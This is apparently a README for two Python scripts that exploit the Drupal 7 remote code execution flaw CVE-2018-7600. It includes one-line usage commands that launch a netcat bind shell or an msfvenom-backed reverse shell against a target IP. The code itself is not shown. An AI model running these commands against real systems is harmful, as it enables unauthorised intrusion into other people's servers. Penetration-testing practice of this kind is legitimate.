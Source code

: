 # CVE-2018-7600
Two Python3 scripts that exploit Drupal 7's RCE vulnerability on Windows and Linux. Scripts are meant to acquire a shell on the target host.  
Nothing fancy, the scripts are meant to do everything for you and you don't need to setup your listener(s) separately.  

### d2shell.py
Setup and connect to a netcat binded shell onto the victim host.  
Usage.  
~~~Bash
# python3 d2shell.py target lhost windows/linux  
python3 d2shell.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2shell.gif](d2shell.gif)  

### d2rev.py
Acquire a reverse shell onto the victim host. This script will use msfvenom to create an encoded shell payload if the victim is Windows based.  
Usage.  
~~~Bash
# python3 d2rev.py target lhost windows/linux  
python3 d2rev.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2rev.gif](d2rev.gif)  

![screen.png](screen.png)
